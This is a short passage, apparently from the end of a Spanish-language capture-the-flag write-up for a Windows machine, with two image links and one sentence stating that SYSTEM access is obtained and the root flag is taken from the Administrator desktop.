

Se consigue acceso a la máquina víctima como ``NT AUTHORITY\SYSTEM`` y se recoge la flag de root en el escritorio del usuario ``Administrator``:



